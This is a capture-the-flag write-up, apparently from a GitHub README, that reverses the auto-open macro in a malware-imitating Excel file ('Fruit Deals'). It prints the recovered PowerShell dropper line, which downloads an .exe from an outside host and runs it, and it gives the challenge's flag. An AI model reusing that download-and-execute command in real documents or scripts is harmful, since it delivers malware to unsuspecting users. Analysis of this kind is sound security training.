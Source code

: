 <!-- 
<h3 align="center">CS student and a passionate web developer</h3> -->

<!--   my-ticker -->    
<!-- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;[![Typing SVG](https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player")](https://git.io/typing-svg) -->

<p align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player" alt="Typing SVG">
  </a>
</p>

## Fruit Deals  	

### Infos About challenge : 

![](Screenshot/P1.png)




### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though


## solution:



### step 1 : Open Deals.xlsm 



![](Screenshot/P2.png)

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 


### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 



![](Screenshot/P20.png)

#### After that click on Macros



![](Screenshot/P3.png)


#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

![](Screenshot/P4.png)


### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

![](Screenshot/P5.png)


### Step 3 : Find the name of file that is downloaded 


#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

![](Screenshot/P6.png)



### Now Just open the locals windows in View list 

![](Screenshot/P7.png)


### So you can notice that the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""


### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 




### Flag:

### utflag{banANA-Hakrz09182afd4.exe}
